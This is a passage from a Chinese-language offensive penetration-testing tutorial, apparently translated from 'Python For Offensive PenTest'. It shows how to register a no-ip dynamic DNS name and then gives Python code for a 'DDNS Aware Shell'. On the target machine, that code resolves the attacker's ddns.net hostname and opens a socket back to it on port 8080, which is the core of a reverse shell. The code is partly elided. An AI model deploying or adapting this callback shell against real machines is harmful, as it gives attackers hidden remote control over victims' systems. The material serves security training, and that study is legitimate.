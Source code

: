 1.  安装代理：

```
make install
```

所以，此时，它会提示你输入在 [noip.com](http://noip.com) 网站注册时使用的 `email` 和 `password`。我将在这里输入我的电子邮件地址。现在我们可以看到 `pythonhussam.ddns.net` 已经注册到我们的账户，并且一个新的配置文件已经创建：

![](img/00037.jpeg)

现在，让我们跳转到目标机器。在 Python 中，进行 DNS 查询非常简单。只需要一行代码来解析 IP 地址，我们将使用 `socket.gethostname` 或 `socket.gethostbyname` 来完成，如下代码所示：

```
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read no-ip.com terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest

# DDNS Aware Shell

import socket 
import subprocess 
import os

...

def connect(ip):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, 8080)) # instead of hardcoding the ip addr statically we pass our ip variable 

...

def main ():
    ip = socket.gethostbyname('pythonhussam.ddns.net') # We will use the os to send out a dns query for pythonhussam.ddns.net
    print "Resolved IP was: " + ip # Please don't forget to change this name to yours :D
    connect(ip) # we will pass the ip variable which contains the attacker ip to connect function 
main()
```